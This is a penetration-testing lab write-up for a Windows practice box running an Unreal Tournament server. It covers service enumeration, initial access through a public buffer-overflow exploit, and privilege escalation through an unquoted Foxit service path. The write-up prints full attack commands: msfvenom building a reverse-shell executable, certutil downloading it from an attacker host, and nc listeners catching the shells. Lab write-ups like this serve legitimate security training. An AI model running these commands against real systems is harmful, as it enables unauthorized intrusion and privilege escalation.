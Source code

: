```yaml
---
layout: default
title: x007-UT99
nav_order: 2
has_children: true
parent: writeups
grand_parent: DylanGrl Writings
---
```


## x007-UT99

### Abstract
Windows box

### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.



| Server IP Adress | Ports Open |
|------------------|------------|
|  192.168.222.44      | TCP : 21, 80, 443, 3306,6660 (IRCs)     |
|                  | UDP :      |



**Nmap Scan Results:**

Using  :
```sh
nmap -Pn -n -p- --min-rate 4000 --open -sCV 192.168.222.44
```

Result :
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-15 21:37 CEST
Nmap scan report for 192.168.222.44
Host is up (0.030s latency).
Not shown: 65187 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http       Apache httpd 2.4.16 (OpenSSL/1.0.1p PHP/5.6.12)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.16 (Win32) OpenSSL/1.0.1p PHP/5.6.12
|_http-title: Index of /
443/tcp  open  ssl/http   Apache httpd 2.4.16 (OpenSSL/1.0.1p PHP/5.6.12)
|_http-title: Index of /
|_http-server-header: Apache/2.4.16 (Win32) OpenSSL/1.0.1p PHP/5.6.12
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
3306/tcp open  mysql      MySQL (unauthorized)
6660/tcp open  irc        InspIRCd
...
| irc-info: 
|   server: irc.madcowz.localdomain
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 3
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.49.222
|_  error: Closing link: (nmap@192.168.49.222) [Client exited]
6783/tcp open  irc        InspIRCd
...
Service Info: Hosts: localhost, www.example.com, irc.madcowz.localdomain; OS: Windows; CPE: cpe:/o:microsoft:windows

```

**Vulnerability Exploited:**

[Unreal Tournament - Remote Buffer Overflow (SEH)](https://www.exploit-db.com/exploits/16145)

**Vulnerability Explanation:**

Using the exploit from exploit db, we could reach the initial shell access on the machine because the Unreal Tournament Server is not patched.

**Vulnerability Fix:**

Apply the proper patch in order to fix the vulnerability : http://www.unrealadmin.org/forums/showthread.php?t=15616

**Severity:** Critical

**Proof of Concept / Code Here:**

https://www.exploit-db.com/exploits/16145

```bash
perl 16145.pl 192.168.222.44 7778 192.168.49.222 80 
```

With a `nc` waiting we received the initial connection : 

![](attachments/Pasted%20image%2020220515221529.png)

**Local.txt Proof Screenshot**

![](attachments/Pasted%20image%2020220515221707.png)

**Local.txt Contents**
`56231a47be40b1e5f00a00c48bf3fc99` 

### Privilege Escalation

**Vulnerability Exploited:**

[Foxit Reader 7.0.6.1126 - Unquoted Service Path Privilege Escalation](https://www.exploit-db.com/exploits/36390)


**Vulnerability Explanation:**

The application suffers from an unquoted search path issue impacting
the service 'FoxitCloudUpdateService' for Windows deployed as part of Foxit
Reader. This could potentially allow an authorized but non-privileged local
user to execute arbitrary code with elevated privileges on the system. A
successful attempt would require the local user to be able to insert their
code in the system root path undetected by the OS or other security applications
where it could potentially be executed during application startup or reboot.
If successful, the local user’s code would execute with the elevated privileges
of the application.

Using : 

```powershell
sc qc "FoxitCloudUpdateService"
```

We are able to detect where the software is located and that it is run as system at the startup : 

![](attachments/Pasted%20image%2020220515223900.png)

We could confirm that we have the write permission inside this directory : 

![](attachments/Pasted%20image%2020220515224022.png)

We will craft our reverse shell using msfvenom : 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.222 LPORT=80 -f exe > Foxit.exe
```

We could make it available using python : 

```bash
sudo python3 -m http.server
```

And download it from the Windows machine using :
```powershell
certutil -urlcache -f http://192.168.49.222:8000/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```

We could then restart the machine and wait our reverse shell on port 80 (after closing our existing shell) : 

On the windows server : 
```powershell
shutdown /r /t 10
```

On you kali machine : 
```bash
nc -lnvp 80
```

![](attachments/Pasted%20image%2020220515225243.png)

**Vulnerability Fix:**

Update the Foxit Reader software to the latest version.

**Severity:** Critical

**Proof of Concept / Code Here:**

[https://www.exploit-db.com/exploits/36390](https://www.exploit-db.com/exploits/36390)

**Proof Screenshot Here:**

![](attachments/Pasted%20image%2020220515225333.png)

**Proof.txt Contents:**

`b40c5c83006d6bf27ede58e3db6fea3b`

--------

## NOTES : 


Joining the IRC we could list  channel:

![](attachments/Pasted%20image%2020220515215253.png)


We also get the following information : 

```
* Topic for #ut99 is: Fragging since UT99!  Unreal Tournament 99 Game Server UP!  IP: *THIS*  Port: 7778
```


We could found a exploit for the server of Unreal Tournament : 

![](attachments/Pasted%20image%2020220515220152.png)


https://www.exploit-db.com/exploits/16145

```bash
perl 16145.pl 192.168.222.44 7778 192.168.49.222 80 
```


From the user access, we noted an ftp folder containing some software that we could check for VULN

![](attachments/Pasted%20image%2020220515223049.png)

![](attachments/Pasted%20image%2020220515223032.png)

![](attachments/Pasted%20image%2020220515223138.png)

We will have to craft a reverse shell to replace the program in order to receive a session in admin